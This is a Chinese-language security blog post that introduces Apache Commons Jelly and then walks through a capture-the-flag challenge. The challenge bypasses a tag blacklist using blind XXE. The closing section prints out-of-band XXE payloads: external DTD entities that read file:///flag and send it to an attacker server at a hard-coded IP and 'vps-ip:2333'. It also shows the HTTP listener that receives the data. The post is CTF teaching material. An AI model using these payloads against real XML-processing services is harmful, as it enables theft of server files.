


# Apache Commons Jelly漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/16074  
> **文章ID**: 16074

---

## Apache Commons Jelly

**Jelly 是一种将 XML 转换为可执行代码的工具**。 所以 Jelly 是一个基于 Java 和 XML 的脚本和处理引擎。 Jelly 可以用作更灵活、更强大的前端 到 [Ant](http://jakarta.apache.org/ant/ "External Link") 中，如 [Maven](http://maven.apache.org/ "External Link") 项目中，作为 [JellyUnit](https://commons.apache.org/proper/commons-jelly/jellyunit.html) 等测试框架， 在集成或工作流中 系统（如 [Werkflow](http://werkflow.werken.com/ "External Link")）或作为 [Cocoon](http://cocoon.apache.org/ "External Link") 等引擎内的页面模板系统。

pom依赖如下

```
<dependency>
    <groupId>commons-jelly</groupId>
    <artifactId>commons-jelly</artifactId>
    <version>1.0.1</version>
</dependency>

```

Jelly 脚本是被解析为脚本的 XML 文档。然后可以运行该脚本以生成 动态 XML 事件，然后可以转换为文本、XML、HTML 等。

与 Velocity 类似，XML 可以包含表达式以使输出动态化，并且可以使用变量 上下文。

```
<document time="${now}">
  Welcome ${user.name} to Jelly!
</document>

```

Jelly 模板如下所示：

```
<?xml version="1.0"?>
   <j:jelly trim="false" xmlns:j="jelly:core" xmlns:x="jelly:xml" xmlns:html="jelly:html">
     <html>
       <head>
         <title>${name}'s Page</title>
       </head>
       <body bgcolor="${background}" text="#FFFFFF">
         <h1>${name}'s Homepage</h1>
         
         <h2>My Hobbies</h2>
         <ul>
           <j:forEach items="${hobbies}" var="i">
             <li>${i}</li>
           </j:forEach>
         </ul>
       </body>
     </html>
   </j:jelly>

```

### Jelly使用

创建一个名为 example.jelly 的文件，内容如下：

```
<j:jelly xmlns:j="jelly:core" xmlns:define="jelly:define">
    <define:taglib uri="myTagLib">
        <define:jellybean name="hello" className="HelloTask"/>
    </define:taglib>
    <my:hello message="Hello, Jelly!"/>
</j:jelly>

```

编写 Java 类  
创建一个名为 HelloTask.java 的文件，内容如下：

```
public class HelloTask {
    private String message;

    public void setMessage(String message) {
        this.message = message;
    }

    public void execute() {
        System.out.println(message);
    }
}

```

运行 Jelly 脚本  
编写一个 Java 主类来运行 Jelly 脚本：

```
import org.apache.commons.jelly.JellyContext;
import org.apache.commons.jelly.JellyException;
import org.apache.commons.jelly.Script;
import org.apache.commons.jelly.XMLOutput;

public class Main {
    public static void main(String[] args) throws JellyException {
        JellyContext context = new JellyContext();
        Script script = context.compileScript("example.jelly");
        script.run(context, XMLOutput.createXMLOutput(System.out));
    }

```

### 国城杯 Jelly

题目给了源码如下

```
package org.ctf.jelly;  

import java.io.IOException;  
import javax.xml.parsers.DocumentBuilderFactory;  
import javax.xml.parsers.ParserConfigurationException;  
import org.apache.commons.jelly.JellyContext;  
import org.apache.commons.jelly.XMLOutput;  
import org.springframework.stereotype.Controller;  
import org.springframework.web.bind.annotation.RequestMapping;  
import org.springframework.web.bind.annotation.RequestParam;  
import org.springframework.web.bind.annotation.ResponseBody;  
import org.w3c.dom.Document;  
import org.xml.sax.SAXException;  

@Controller  
/* loaded from: IndexController.class */  
public class IndexController {  
    private static Boolean check(String uri) throws IOException, ParserConfigurationException, SAXException {  
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();  
        dbf.setNamespaceAware(true);  
        Document doc = dbf.newDocumentBuilder().parse(uri);  
        int tag1 = doc.getElementsByTagNameNS("*", "expr").getLength();  
        int tag2 = doc.getElementsByTagNameNS("*", "import").getLength();  
        int tag3 = doc.getElementsByTagNameNS("*", "include").getLength();  
        int tag4 = doc.getElementsByTagNameNS("*", "invoke").getLength();  
        int tag5 = doc.getElementsByTagNameNS("*", "invokeStatic").getLength();  
        int tag6 = doc.getElementsByTagNameNS("*", "new").getLength();  
        int tag7 = doc.getElementsByTagNameNS("*", "parse").getLength();  
        int tag8 = doc.getElementsByTagNameNS("*", "set").getLength();  
        int tag9 = doc.getElementsByTagNameNS("*", "setProperties").getLength();  
        int tag10 = doc.getElementsByTagNameNS("*", "out").getLength();  
        int tag11 = doc.getElementsByTagNameNS("*", "useBean").getLength();  
        if (tag1 > 0 || tag2 > 0 || tag3 > 0 || tag4 > 0 || tag5 > 0 || tag6 > 0 || tag7 > 0 || tag8 > 0 || tag9 > 0 || tag10 > 0 || tag11 > 0) {  
            return false;  
        }        return true;  
    }  
    @RequestMapping({"/"})  
    @ResponseBody  
    public String Index() {  
        return "Try to eat jelly";  
    }  
    @RequestMapping({"/jelly"})  
    @ResponseBody  
    public String Jelly(@RequestParam(required = true) String uri) {  
        try {  
            if (!check(uri).booleanValue()) {  
                return "no way :(";  
            }            JellyContext context = new JellyContext();  
            context.compileScript(uri).run(context, XMLOutput.createXMLOutput(System.out));  
            return "Tasty Jelly :)";  
        } catch (Exception e) {  
            return "no way :(";  
        }    }}

```

分析源码，发现题目先用 xml 方式解析进行黑名单判断，然后用 jelly 模板引擎解析脚本。

比较官方文档 <https://commons.apache.org/proper/commons-jelly/tags.html>  
发现 file 标签可以写文件而且没有被过滤。



### 漏洞探寻

在 **Apache Commons Jelly** 中，执行 **写文件** 操作通常是通过 `<j:out>` 标签来完成的。Jelly 是一个轻量级的标记语言，它允许在 XML 文件中嵌入脚本和标签。`<j:out>` 标签是用来将内容输出到文件的。可以通过设置不同的属性来配置文件的输出方式。

```
<?xml version="1.0" encoding="UTF-8"?>
<j:jelly xmlns:j="jelly">
    <!-- 设置文件输出路径和内容 -->
    <j:out name="output.xml">
        <j:content>This is the content that will be written to the file.</j:content>
    </j:out>
</j:jelly>

```

但是尝试了很久都没有什么用覆盖不了jar包

而通过搜索发现Apache Commons Jelly 1.0版本存在XXE漏洞



```
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://xxx/xxe.php?q=%file;'>"
>
%all;

```

```
<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % dtd SYSTEM "http://124.220.37.173/pd.dtd">
%dtd;
%send;
] >

```

vps放置dtd 文件文件

```
<!ENTITY % exp 
"<!ENTITY % data SYSTEM 'http://vps-ip:2333/?%file;'>"
>
%exp;

```

vps开启2333服务

```
python -m http.server 2333

```

然后我们从jelly发送xml内容进行xxe盲打外带

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % dtd SYSTEM "http://124.220.37.173/a.dtd">
%dtd;
%data;
]>
<root>
</root>

```
